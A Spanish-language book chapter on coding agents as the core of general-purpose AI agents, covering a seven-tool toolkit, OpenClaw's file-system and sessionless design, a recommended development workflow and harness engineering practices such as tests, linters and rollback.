

# Capítulo 5: Coding Agent y Generación de Código

Los capítulos anteriores profundizaron en la ingeniería de contexto (Capítulos 2 y 3) y el diseño de herramientas (Capítulo 4). Este capítulo reúne estas piezas para responder a una pregunta central: **¿Cómo es la arquitectura de un Agente de propósito general capaz de gestionar tareas arbitrarias y abiertas?**

La respuesta es: **Un Agente de propósito general orientado a tareas abiertas** tiene en su núcleo un **Agente Programador (Coding Agent)** (un Agente capaz de escribir, modificar y ejecutar código de forma autónoma) junto con un **sistema de archivos** (el espacio de trabajo que utiliza el Agente para almacenar código, datos, memoria y resultados intermedios, de forma similar a como un programador gestiona proyectos mediante carpetas en su computadora). Desde Manus hasta OpenClaw, los Agentes de propósito general orientados a tareas abiertas que han tenido éxito siguen este mismo paradigma.

¿Por qué la generación de código puede cargar con este peso? Porque no es solo una herramienta, sino una **metacapacidad**: la capacidad de crear nuevas herramientas y capacidades dinámicamente en tiempo de ejecución. La segunda mitad de este capítulo desarrolla este concepto en detalle, junto con las seis direcciones en las que se aplica.

El valor del código para un Agente se refleja en dos niveles. En el **pensamiento**, la formalización del código hace que el razonamiento sea altamente riguroso. Una descripción en lenguaje natural como "edad mayor de 18 años y con verificación de identidad completada" puede tener múltiples interpretaciones; escribirla como código elimina cualquier ambigüedad. En la **expresión**, un fragmento de código capaz de ejecutarse con éxito es en sí mismo la prueba de una lógica autoconsistente, y el resultado de la ejecución proporciona un criterio objetivo de corrección o error.

Este capítulo comienza con las capacidades fundamentales de los Coding Agents y la arquitectura general de los Agentes (OpenClaw), y luego muestra la aplicación de la generación de código en diversos escenarios: desde el pensamiento matemático y la creación de contenido hasta la metacapacidad a nivel de sistema.

## Coding Agent

### Coding es la capacidad fundamental de un Agente

**La generación de código no es el monopolio de unos pocos Agentes especializados, sino una capacidad fundamental que todo Agente de propósito general debería poseer**. Con el respaldo de los modelos SOTA actuales, contar con capacidades básicas de programación no requiere una arquitectura compleja.

Considera una tarea típica: "Organizar todos los comentarios TODO heredados en el repositorio, clasificarlos por prioridad y generar las incidencias (issues) correspondientes". Para llevar a cabo esta tarea se necesita: explorar la estructura de directorios (ls/glob), leer el código (read), modificar archivos (edit/write), ejecutar comandos (bash) y buscar patrones (grep/search). Estas cinco categorías de operaciones cubren prácticamente todas las acciones nucleares de un Coding Agent y constituyen el origen de las siete herramientas que se detallan a continuación. En sentido estricto, estas cinco categorías de operaciones corresponden de forma natural a seis herramientas; la séptima herramienta, el Intérprete de Código (Code Interpreter), se encarga de operaciones como "ejecutar código o realizar cálculos", que en algunas implementaciones se fusiona directamente con Bash. Las siete herramientas forman un conjunto de referencia estandarizado, por lo que no es necesario forzar una correspondencia uno a uno estricta con las cinco categorías de operaciones.

Un Coding Agent básico solo requiere estar equipado con las siguientes siete herramientas nucleares:

1. **Intérprete de Código (Code Interpreter)**: Proporciona un entorno de sandbox aislado (un espacio de ejecución seguro aislado del sistema principal, donde el código se ejecuta de modo que los errores no afecten a la máquina anfitriona) para ejecutar código Python de forma segura.
2. **Terminal Bash (Bash Shell)**: Ejecuta comandos en la terminal, tales como ejecutar casos de prueba o procesar archivos con formatos especiales.
3. **Herramienta de lectura de archivos**: Lee código, configuraciones, documentación, registros (logs), etc.
4. **Herramienta de escritura de archivos**: Crea archivos nuevos o sobrescribe por completo archivos existentes.
5. **Herramienta de edición de archivos**: Realiza modificaciones parciales en archivos existentes, siendo la operación nuclear para el mantenimiento e iteración del código.
6. **Herramienta de búsqueda por nombre de archivo (Glob)**: Ubica rápidamente archivos objetivo en el sistema de archivos mediante coincidencia de patrones, por ejemplo, usando `**/*.py` para encontrar todos los archivos Python del proyecto.
7. **Herramienta de búsqueda por contenido de archivo (Grep)**: Busca patrones de texto específicos dentro del contenido de los archivos, por ejemplo, buscando todas las líneas de código que invocan una función determinada.

Estas siete herramientas constituyen una caja de herramientas completa pero extremadamente simplificada, que casi cualquier sistema de Agente puede integrar a bajo costo. En su implementación, todas ellas pueden exponerse como servicios de herramientas estandarizados a través del protocolo MCP presentado en el Capítulo 4. Cabe señalar que este conjunto de herramientas es una configuración básica específica de los Coding Agents, a diferencia de la clasificación de cinco herramientas generales del Capítulo 4 (percepción, ejecución, colaboración, activación por eventos y comunicación con el usuario). Las siete herramientas nucleares cubren principalmente las categorías de percepción y ejecución. El lector podría preguntarse: ¿qué ocurre con la colaboración, la activación por eventos y la comunicación con el usuario? En un Coding Agent, estas necesidades suelen ser gestionadas por el marco del Agente (Agent Framework) en lugar de la capa de herramientas. Por ejemplo, la delegación a subagentes es administrada por la lógica de orquestación del marco, en lugar de utilizar herramientas de colaboración dedicadas.

Veamos cómo se coordinan estas siete herramientas mediante la tarea más sencilla. Supongamos que el usuario dice: "Ayúdame a organizar todos los comentarios TODO del proyecto en una lista":

```text
Agente (Pensamiento): Necesito encontrar todas las líneas de código que contengan TODO.
Agente → Grep("TODO", glob="**/*.py")          # Buscar en el contenido del archivo
Respuesta de la herramienta:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agente (Pensamiento): Encontré 3 TODO, los organizaré en una lista y la escribiré en un archivo.
Agente → Write("TODO_LIST.md", content="...")   # Escribir archivo
Respuesta de la herramienta: Archivo creado

Agente: Se ha completado la organización. Se encontraron un total de 3 elementos TODO y la lista se guardó en TODO_LIST.md.
```

Todo el proceso solo utilizó dos herramientas: Grep (búsqueda de contenido) y Write (escritura de archivos). Si la tarea fuera más compleja (por ejemplo, "calcular el número de TODO por módulo y dibujar un gráfico de barras"), el Agente también utilizaría el Code Interpreter para ejecutar código Python con el fin de realizar estadísticas y gráficos. Aunque las siete herramientas son simples, su combinación permite completar una gran diversidad de tareas.

El lector podría preguntarse: ¿por qué siete herramientas y no seis? En realidad, bastaría con una sola herramienta de Bash Shell. OpenAI Codex ofrece únicamente Bash Shell y realiza con esa única herramienta todas las operaciones de lectura, escritura y búsqueda de archivos. Sin embargo, otros Agentes siguen manteniendo herramientas independientes de lectura y escritura de archivos. Las siete herramientas de este libro se presentan por separado para facilitar al lector la comprensión de las capacidades básicas que necesita un Coding Agent.

¿Por qué todo Agente de propósito general debería poseer capacidad de programación? Porque la generación de código no es solo escribir programas: es un método general para la resolución de problemas. Ante un razonamiento matemático, se puede escribir código para que un solver calcule la respuesta exacta; al necesitar fijar reglas de negocio, el código es mucho más preciso que las descripciones en lenguaje natural; si falta una herramienta, se puede escribir una temporalmente; si el formato de los datos cambia, se genera dinámicamente la lógica de parseo. Las secciones posteriores de este capítulo desarrollarán cada uno de estos escenarios. Un Agente equipado con capacidades básicas de programación, incluso si en su caja de herramientas solo cuenta con las siete herramientas simples mencionadas, puede expandir dinámicamente sus límites de capacidad al enfrentar nuevas necesidades.

### Caso de estudio — De Manus a OpenClaw: El núcleo de Coding de los Agentes generales

Los productos de Agente de propósito general como Manus y OpenClaw combinan tres capacidades principales —Deep Research, Computer Use y Coding— en un solo sistema. Entonces, ¿por qué al principio de este capítulo se llamó al Coding Agent el núcleo y no a ninguna de las otras dos?

Porque casi toda la generación eficiente de contenido acaba reduciéndose al código. Las presentaciones de PowerPoint y los documentos de Word son esencialmente código en formato OOXML (Office Open XML, el estándar abierto de Microsoft para documentos de oficina). Los informes PDF pueden generarse mediante Markdown, HTML o LaTeX; los scripts de Python pueden realizar análisis y visualización de datos; incluso las secuencias exitosas de operación en el navegador provenientes del trabajo con GUI pueden capturarse como código reutilizable (véase el Capítulo 9). La búsqueda de Deep Research y la síntesis de información pueden implementarse mediante solicitudes web y análisis impulsados por código. Computer Use es más versátil, pero el código directo o las llamadas a API suelen ser más baratas, rápidas y fiables para operaciones equivalentes. La generación de código es la base de capacidad más eficiente, de menor costo y más reutilizable.


Comprendamos esta arquitectura a través de un flujo de ejecución concreto. Supongamos que el usuario solicita: "Ayúdame a analizar los datos de ventas del último trimestre y crear un informe de resumen":

1. **Leer memoria**: El Agente lee `MEMORY.md` y descubre que el usuario prefiere los informes en formato PDF y que la fuente de datos es Google Sheets.
2. **Invocación de herramientas**: Obtiene el método de uso de la API de Google Sheets a través del módulo de búsqueda web y descarga los datos mediante la ejecución de código.
3. **Escribir código**: Genera un script de análisis de datos en Python (agregación con pandas, visualización con matplotlib).
4. **Generar artefactos**: Escribe los resultados del análisis en `report.pdf` y guarda los gráficos en el directorio `charts/`.
5. **Actualizar memoria**: Registra en `MEMORY.md` la nota "Los datos de ventas del usuario están en Google Sheets, ID: xxx", para no tener que preguntarlo la próxima vez.

Durante todo el proceso, el sistema de archivos actúa como el centro neurálgico del flujo de información: la memoria se lee desde archivos, los artefactos se escriben en archivos y la experiencia se conserva en archivos.

**El sistema de archivos como centro neurálgico del Agente**. En el diseño de OpenClaw, el sistema de archivos va mucho más allá del almacenamiento de datos: es el centro neurálgico de la memoria, el conocimiento y las capacidades del Agente. La memoria a largo plazo del Agente se almacena en `MEMORY.md` (hechos de alto nivel y preferencias del usuario) y en registros Markdown archivados por fecha. La decisión de elegir Markdown en lugar de una base de datos vectorial puede parecer contraintuitiva, pero en la práctica resulta sumamente efectiva: el usuario puede abrir directamente el archivo para leer y modificar la memoria del Agente (si el Agente recordó mal algún dato, basta con eliminar esa línea), Markdown preserva de forma natural el orden cronológico evitando confusiones temporales en la recuperación semántica, y permite el control de versiones y reversiones mediante Git.

Lo que es aún más crítico: el Agente posee la capacidad de escribir archivos, lo que significa que cuenta con las condiciones técnicas para modificar sus propios artefactos externos. Cuando el Agente ejecuta una tarea por primera vez y descubre información clave que desconocía (por ejemplo, al llamar a un banco descubre que este exige la dirección de la sucursal para verificar la identidad), puede registrar primero el hallazgo. Determinar cuándo un registro es lo suficientemente sólido como para convertirse en conocimiento confiable, instrucciones o programas sigue requiriendo la verificación mediante más trayectorias y resultados; este es el problema de evolución continua que se discutirá en el Capítulo 9.

**Límite de aplicabilidad: qué Agentes tienen Coding como arquitectura central.** La conclusión de que "el Coding Agent es el núcleo de un Agente de propósito general" se aplica principalmente a **Agentes de propósito general orientados a tareas abiertas**: escenarios como la investigación profunda, la generación de contenido y el procesamiento de datos, en los que los límites de la tarea son inciertos y las formas de los artefactos son diversas. En estos escenarios es imposible enumerar de antemano todas las herramientas necesarias; la generación de código, como metacapacidad, proporciona la vía más económica para expandir dinámicamente los límites de capacidad, convirtiéndose así en el núcleo de la arquitectura. En cambio, los Agentes de servicio al cliente de dominio vertical operan en espacios de tarea relativamente cerrados, con arquitecturas centrales construidas en torno a procesos de negocio fijos, herramientas del dominio y estrategias de diálogo; allí, el código es una herramienta más en la caja de herramientas y no el centro de la arquitectura. Sin embargo, incluso en estos últimos, el código sigue siendo una capacidad fundamental importante: el cálculo preciso, el procesamiento de datos y la verificación de reglas dependen todos de él.

A continuación se discuten el modo de interacción "siempre disponible" y la arquitectura de seguridad, dos diseños que a primera vista parecen no estar relacionados con el tema del Coding Agent. Sin embargo, determinan directamente cómo gestiona el Agente el entorno de ejecución de código y el estado del sistema de archivos, lo cual constituye la preocupación central de un Coding Agent. (Los lectores que deseen comprender primero cómo trabaja paso a paso un Coding Agent pueden saltar a la sección "El flujo de trabajo general de un Coding Agent" más adelante y volver aquí para revisar los diseños de interacción y seguridad).

OpenClaw adopta un diseño **Sin Sesión (Sessionless)**: no hay pasos de instalación, inicio de sesión o apertura de aplicaciones. El Agente permanece constantemente en línea, y los usuarios obtienen respuesta enviando un mensaje en cualquier momento desde la plataforma de mensajería que ya utilizan. Esta forma de interacción y la arquitectura orientada a eventos con enrutamiento de mensajes del Gateway subyacente ya se analizaron en detalle en la sección de herramientas de comunicación con el usuario del Capítulo 6. Vale la pena destacar la premisa bajo la cual este modelo es viabilidad: los grandes modelos de lenguaje han madurado lo suficiente como para actuar como una nueva "base inteligente". De manera similar a como un sistema operativo tradicional abstrae el hardware y proporciona una abstracción unificada para las aplicaciones superiores, el gran modelo abstrae la complejidad de la comprensión del lenguaje y la planificación del razonamiento, ofreciendo una abstracción inteligente unificada para los Agentes superiores. Es gracias a esta capa base que la forma "constante + respuesta en cualquier momento" se puede industrializar a bajo costo.

Para un Coding Agent, la verdadera dificultad de ingeniería de Sessionless radica en **cómo lograr que el entorno de ejecución de código y el estado del sistema de archivos sobrevivan a través de los mensajes**. Dos mensajes de un usuario pueden estar separados por unos pocos minutos o por varios días, mientras que el trabajo del Agente depende de un gran número de estados implícitos: los paquetes de dependencias instalados en el sandbox, el directorio de trabajo y las variables de entorno en la sesión de la terminal, los servidores de desarrollo ejecutándose en segundo plano y los archivos a medio escribir. El enfoque de OpenClaw consiste en gestionar el estado dividiéndolo en dos capas. **El estado del sistema de archivos es naturalmente persistente**: el directorio del espacio de trabajo (workspace) se monta en un almacenamiento persistente fuera del sandbox, por lo que el código, los datos y los productos intermedios no se pierden al pasar de un mensaje a otro ni al reiniciar el sandbox. Esta es otra faceta del concepto del "sistema de archivos como centro del Agente". **Los estados de los procesos se mantienen activos o se reconstruyen según la demanda**: el sandbox y sus sesiones de terminal se mantienen en ejecución durante los periodos de actividad, evitando arranques en frío, cambios de directorio o reactivaciones de entornos virtuales con cada mensaje; tras un tiempo de inactividad se destruyen para recuperar recursos, habiendo grabado antes el estado del entorno serializable (directorio de trabajo, variables de entorno, lista de tareas en segundo plano) en archivos del espacio de trabajo, de modo que el Agente pueda reconstruirlo según los registros en la siguiente activación. La sesión de terminal persistente analizada en la sección "Persistencia de estado del entorno de ejecución de comandos" más adelante es la contraparte de este mecanismo dentro de una sola tarea; Sessionless extiende el mismo problema a una escala temporal que abarca múltiples mensajes y días.

El diseño Sessionless tampoco está exento de mantenimiento: implica que con cada mensaje del usuario es necesario **volver a cargar la trayectoria completa y el estado de trabajo**, lo que exige una mayor eficiencia en la serialización del estado y mejores estrategias de compresión de trayectoria. Los principios de diseño de la compresión de trayectoria ya se analizaron en la sección "Estrategias de compresión de contexto" del Capítulo 2; este capítulo se enfoca en las decisiones de ingeniería bajo la arquitectura Sessionless.

### El flujo de trabajo general de un Agente de Código


**Documentación del proyecto.**

El trabajo de un Coding Agent comienza con la comprensión sistemática del proyecto. Cuando el Agente entra en contacto con un repositorio de código por primera vez, su tarea principal no es modificar código inmediatamente, sino establecer un marco de conocimiento de todo el proyecto, de forma similar a un ingeniero recién contratado que en su primer día no envía código directamente, sino que se familiariza con la estructura del proyecto. El Agente comprueba primero si existen documentos clave en el proyecto: README, documentos de diseño de arquitectura y guías para desarrolladores.

Si falta documentación crítica, el Agente no debe comenzar a trabajar a ciegas, sino asumir proactivamente la responsabilidad de documentar: leyendo el repositorio de código de forma sistemática, identificando los módulos principales, las abstracciones centrales y las dependencias entre componentes para generar una documentación inicial que incluya una visión general de la arquitectura, la estructura de directorios y guías de ejecución de pruebas. Este documento sirve como plano para el trabajo posterior del Agente y proporciona un punto de entrada para otros desarrolladores. Esto refleja un principio clave: la explicitación del conocimiento es un prerrequisito para una colaboración eficiente.

La explicitación del conocimiento adopta hoy una forma específica para Agentes: los **archivos de instrucciones del proyecto**. Archivos como `CLAUDE.md`, `AGENTS.md` y `.cursorrules` se han convertido en estándares de facto en la industria: se inyectan automáticamente en el contexto al comienzo de cada sesión, actuando como prompts del sistema a nivel de proyecto. A diferencia del README orientado a lectores humanos, los archivos de instrucciones contienen convenciones de comportamiento orientadas al Agente: comandos de compilación y prueba ("usar `pnpm test` en lugar de `npm test`"), estilos de código ("prohibir el tipo any") y zonas prohibidas explícitas ("no modificar el directorio `migrations/`"). Esto comparte la misma idea que `SOUL.md` en OpenClaw (que define la identidad y reglas de comportamiento del Agente) y `MEMORY.md` (que acumula experiencia entre sesiones) en diferentes niveles: `SOUL.md` establece "quién es el Agente", mientras que los archivos de instrucciones del proyecto establecen "cómo se trabaja en este proyecto". Desde la perspectiva de la ingeniería de contexto del Capítulo 2, los archivos de instrucciones representan el prefijo estable más económico: su contenido no cambia con la tarea, siendo naturalmente amigable para el KV Cache; también es la aplicación más directa del principio "el conocimiento debe residir en el propio repositorio de código".

El principio de explicitación del conocimiento tiene un corolario interesante: **los equipos amigables con el trabajo remoto suelen ser también amigables con los Agentes de IA**. Los equipos remotos se ven obligados a depender de la comunicación asíncrona y la documentación: los registros de decisiones están en documentos, el contexto se escribe en descripciones de incidencias y PRs, y el conocimiento tribal se deposita en guías de desarrolladores, en lugar de transmitirse verbalmente al lado del escritorio o en pizarras de salas de reuniones. Esta es precisamente la forma de conocimiento que un Agente puede consumir: un Agente no puede leer acuerdos verbales, pero sí documentos de diseño. Por el contrario, para un equipo que depende altamente de "preguntarle al compañero de al lado", el costo de incorporación es igual de alto tanto para un nuevo empleado remoto como para un Agente. Un indicador indirecto simple para evaluar qué tan "preparado para IA (AI-ready)" está un equipo es: si un nuevo empleado remoto puede comenzar a trabajar de forma independiente apoyándose únicamente en el repositorio de código y la documentación.

**Comprensión de tareas y clarificación de requisitos.**

Para necesidades sencillas con límites claros e impacto limitado (por ejemplo, corregir un error conocido o ajustar los parámetros de una función), el Agente puede pasar directamente a la fase de implementación. Sin embargo, la mayoría de las tareas en el desarrollo de software no son tan simples.

Para necesidades complejas, el Agente debe ser más cauteloso y metódico. La complejidad puede derivar de múltiples dimensiones: la ambigüedad de la demanda (el usuario sabe lo que quiere pero no puede expresarlo con precisión), la diversidad de rutas de implementación (múltiples opciones técnicas disponibles, cada una con sus concesiones) o la amplitud del impacto (necesidad de modificar múltiples módulos, pudiendo romper funcionalidades existentes). El Agente debe explorar e investigar para clarificar los límites, dialogando proactivamente con el usuario cuando sea necesario. Por ejemplo, cuando el usuario pide "optimizar el rendimiento del sistema", el Agente debe aclarar primero: cuáles son los objetivos específicos de la optimización (reducir el tiempo de respuesta, disminuir el uso de memoria o aumentar el rendimiento), cuáles son las concesiones aceptables (si se permite aumentar la complejidad del código) y dónde se encuentra el cuello de botella actual. Comenzar a codificar en un estado de requisitos ambiguos suele conducir a un trabajo de reelaboración masivo.

**Escritura del documento de diseño.**

El documento de diseño es el puente que transforma requisitos abstractos en planes de implementación concretos. Debe responder a preguntas centrales: qué módulos se modificarán y por qué, qué plan se adoptará y sus ventajas relativas, qué nuevas dependencias deben introducirse y cuál es el impacto esperado en el sistema. Escribir el documento de diseño es en sí mismo un proceso de pensamiento profundo: obliga al Agente a verificar la viabilidad de la solución a nivel conceptual antes de invertir una gran cantidad de tiempo en la codificación. Más importante aún, el documento de diseño proporciona un punto de intervención eficiente para los humanos: revisar un documento de diseño conciso es mucho más fácil que revisar cientos de líneas de código. Tras completar el documento de diseño, el Agente debe enviarlo al usuario para su revisión y esperar su aprobación antes de continuar.

**Implementación de código y pruebas.**

Tras recibir la aprobación del diseño, el Agente implementa el código siguiendo las normas del proyecto, reutiliza las abstracciones y herramientas existentes y realiza refactorizaciones moderadas cuando sea necesario para mantener la salud del repositorio de código.

Una vez completada la implementación, se ingresa inmediatamente al ciclo de garantía de calidad impulsado por pruebas: escribiendo casos de prueba para las funcionalidades nuevas o modificadas, cubriendo rutas normales, condiciones límite y situaciones de excepción. Tras escribir las pruebas, se ejecuta la suite de pruebas. Si las pruebas fallan, el Agente no debe limitarse a reportar el fallo al usuario, sino analizar la causa, localizar el problema y modificar el código hasta que todas las pruebas pasen. Este bucle de "prueba-corrección" puede requerir múltiples iteraciones; es precisamente esta capacidad de autocorrección la que eleva a un Coding Agent de un mero generador de código a un asistente de ingeniería confiable. Por el contrario, la forma más común de pereza en un Coding Agent es saltarse este paso: reportar "tarea completada" justo al terminar de escribir el código sin haber ejecutado las pruebas. Definir "pruebas superadas" en lugar de "código escrito" como el criterio de finalización es la aplicación práctica del principio de la Ingeniería de Ciclos (Loop Engineering) que establece que "la verificación determina cuándo detenerse" en escenarios de codificación.

Incluso si todas las pruebas pasan, el trabajo del Agente aún no ha terminado. A continuación viene la fase de revisión de código: el Agente realiza un examen crítico del código que ha generado (evaluando su legibilidad, si cuenta con comentarios suficientes, si existen problemas potenciales de rendimiento o vulnerabilidades de seguridad, y si cumple con el estilo de código y las mejores prácticas del proyecto). Esta autorevisión se puede llevar a cabo leyendo el código, ejecutando herramientas de linter o invocando a un subagente (Sub-Agent) dedicado a la revisión de código. Si la revisión revela problemas, se debe volver a la fase de modificación para perfeccionar el código, en lugar de entregar código defectuoso al usuario.

**Sincronización de documentación y entrega.**

Si las modificaciones del código implican cambios a nivel de arquitectura (por ejemplo, la introducción de nuevos módulos, cambios en las dependencias entre módulos o modificaciones en la semántica de las abstracciones centrales), el Agente debe actualizar la documentación de arquitectura en consecuencia. La documentación desactualizada es peor que la falta de documentación, ya que puede inducir a error a futuros desarrolladores. Al actualizar automáticamente la documentación tras cada modificación importante, el Agente ayuda a mantener la integridad y actualidad de la base de conocimiento del proyecto.

Este flujo de trabajo encarna los principios fundamentales de la ingeniería de software: la planificación precede a la acción, la verificación acompaña todo el proceso y la documentación evoluciona junto con el código.

Obsérvese que el proceso descrito arriba es un **flujo de trabajo de ingeniería recomendado**. Los Coding Agents del mundo real (como Claude Code y Codex) lo recortan según sea necesario: una tarea sencilla de corrección de errores se salta la generación de un documento de diseño, mientras que solo las tareas complejas y de amplio alcance pasan por todas las etapas en su totalidad.

Distintos modelos recortan este flujo de trabajo de maneras diferentes. Algunos modelos de Coding leen ampliamente la estructura del repositorio, la implementación, los llamadores y las pruebas antes de la primera edición. Otros inspeccionan solo los pocos archivos con más probabilidad de ser relevantes, aplican pronto un parche y tratan la retroalimentación del compilador y de las pruebas como parte de la investigación. Este umbral para decidir cuándo dejar de recopilar información y empezar a actuar puede seguir al modelo después de que cambie el harness, y puede cambiar cuando se sustituye el modelo dentro del mismo harness. Por tanto, ante todo es un **comportamiento aprendido del modelo**, no solo el estilo de interfaz de un producto de Coding. Los prompts, las herramientas y los presupuestos del harness aún pueden amplificarlo o suprimirlo, pero no tienen por qué ser su fuente. El Capítulo 7 mide esta diferencia en un harness fijo; el Capítulo 8 explica después cómo el post-entrenamiento puede escribir una política así en los parámetros.

### Ingeniería de Harness en la práctica para Agentes de Código

El Capítulo 1 introdujo el concepto de Ingeniería de Harness y la fórmula **Agente = Modelo + Harness**. El Harness incluye aquí el contexto y las herramientas de la fórmula nuclear, así como los mecanismos de restricción, verificación y corrección: los cinco elementos conforman juntos el Harness definido en el Capítulo 1. Los Coding Agents representan probablemente el área con mayores beneficios de la Ingeniería de Harness: la escritura de código es la categoría con **mayor verificabilidad** entre todas las tareas de los Agentes, contando con infraestructuras existentes sobre las cuales apoyar las restricciones, verificaciones y correcciones. Esta sección se enfoca en las prácticas concretas dentro de los escenarios de Coding Agents.

Que un Agente pueda ejecutarse de forma estable suele depender no de qué tan potente sea el modelo utilizado, sino de qué tan sólida sea la infraestructura construida a su alrededor. El Capítulo 1 divide el Harness en dos niveles: **Contexto y Herramientas** (permitir que el Agente haga cosas) y **Restricciones, Verificación y Corrección** (evitar que el Agente cometa errores). En el escenario de un Coding Agent, estos niveles se concretan en componentes de ingeniería específicos:

- **Baselines de aceptación**: Qué se considera terminado: suites de pruebas, canalizaciones de CI (canalizaciones de integración continua que ejecutan automáticamente una serie de comprobaciones tras enviar el código) y estándares de revisión de código.
- **Límites de ejecución**: Qué puede tocar y qué no puede tocar el Agente: límites entre módulos, reglas de dependencias y control de permisos.
- **Señales de retroalimentación**: Juicios automáticos sobre la corrección o error: salidas de Linters (herramientas de análisis sintáctico que detectan automáticamente errores de formato y problemas potenciales), resultados de pruebas y errores de verificación de tipos.
- **Mecanismos de reversión**: Cómo recuperarse ante un problema: control de versiones con Git, aislamiento en sandbox y reversión mediante instantáneas (snapshots).

**Por qué los Coding Agents son especialmente adecuados para la Ingeniería de Harness.**

Se pueden clasificar las tareas en cuatro estados según dos dimensiones: la claridad del objetivo y el grado de automatización de la verificación. Cuando el objetivo es claro y los resultados se pueden verificar automáticamente, se obtiene la zona más adecuada para que el Agente despliegue su potencial; cuando el objetivo es claro pero la aceptación depende de la supervisión humana, el techo del rendimiento queda limitado por la velocidad de revisión humana; cuando existe retroalimentación automatizada pero el objetivo es vago, el sistema se desplazará eficientemente en la dirección equivocada; y si faltan ambos aspectos, el Agente apenas podrá ser de utilidad. La Tabla 5-1 muestra estos cuatro estados; el objetivo del Harness es empujar la mayor cantidad posible de tareas hacia el cuadrante de "objetivo claro + verificación automatizada".

Tabla 5-1 Cuatro cuadrantes de claridad de objetivos y automatización de verificación

| | Los resultados se pueden verificar automáticamente | Los resultados requieren verificación manual |
|----------|----------------------------------------------|---------------------------------------|
| **Objetivo claro** | Zona óptima: Corrección de errores con pruebas | Rendimiento limitado: Refactorización de código que requiere revisión manual |
| **Objetivo vago** | Desviación eficiente: Optimizar "calidad de código" con linter | Difícil de iniciar: "Hacer que la UI se vea mejor" |

La escritura de código se sitúa de forma natural en el núcleo de este cuadrante: las suites de pruebas proporcionan estándares de aceptación claros, los linters y verificadores de tipos ofrecen verificación automatizada instantánea, y Git proporciona una capacidad perfecta de control de versiones y reversión. Esto explica por qué el Coding Agent es el tipo de Agente más maduro en la actualidad: no porque los modelos de generación de código sean especialmente potentes, sino porque las décadas de infraestructura acumuladas en la ingeniería de software constituyen de manera natural un Harness potente.

**Prácticas industriales.**

Las prácticas de Harness en tres casos de estudio confirman los principios anteriores:

- **Caso de migración de código a gran escala** (procedente de una práctica pública de migración de código compartida por una gran empresa tecnológica): la clave no residió en contar con un modelo fuerte, sino en tres decisiones acertadas en el Harness: el conocimiento debe residir en el propio repositorio de código (lo que el Agente no ve, no existe), las restricciones deben codificarse en Linters y CI en lugar de escribirse en documentos, y la verificación y corrección deben estar automatizadas en toda la cadena.
- **LangChain**: logró mejoras significativas en tareas de benchmark optimizando únicamente el Harness (prompts del sistema, middleware de herramientas, bucle de autoverificación). Destaca especialmente la metodología de "usar Agentes para analizar trayectorias fallidas y mejorar el Harness", transformando la Ingeniería de Harness de un enfoque guiado por la experiencia humana a uno guiado por datos.
- **Anthropic**: dividió las tareas largas en dos roles: un Agente de Inicialización encargado de descomponer la gran tarea en una lista de tareas, y un Agente de Ejecución encargado de avanzar gradualmente y dejar los resultados intermedios (como archivos de código completados, listas de tareas actualizadas, etc.) para que la siguiente ronda continúe utilizándolos. Esta división de trabajo resolvió los problemas de los Agentes de larga duración que intentan "hacer demasiado a la vez" o "declarar la finalización de forma prematura".

**De Coding Agent a los principios de diseño generales de Harness.**

Las prácticas de Harness en Coding Agents proporcionan principios de diseño transferibles a todos los sistemas de Agentes:

1. **Las restricciones priorizan sobre la orientación**: Cualquier regla que pueda imponerse mediante código no debe sugerirse mediante documentos. El valor de las reglas de Linters, las restricciones de tipo y las comprobaciones de CI supera con creces orientaciones en los prompts del sistema como "Por favor respete...": las primeras representan "lo que no se puede hacer", mientras que las segundas son solo "se sugiere no hacer".
2. **La verificación debe estar automatizada**: La revisión manual representa un cuello de botella no escalable. La inversión en infraestructuras como suites de pruebas, comprobaciones de calidad de código y monitoreo de comportamiento ofrece un retorno muy superior al aumento de personal.
3. **La retroalimentación debe ser lo más rápida y estructurada posible**: Cuanto más detallada sea la información de error y más cercana esté al momento en que ocurrió el error, mayor será la eficiencia de corrección del Agente. La tecnología de la Barra de Estado del Agente del Capítulo 2 (información de error detallada, contadores de llamadas a herramientas) es una manifestación de este principio.
4. **La reversión debe ser confiable**: El Agente puede probar y equivocarse audazmente solo si opera dentro de una red de seguridad. Las ramas de Git, los entornos de sandbox y los mecanismos de instantáneas garantizan que cualquier error sea reversible.

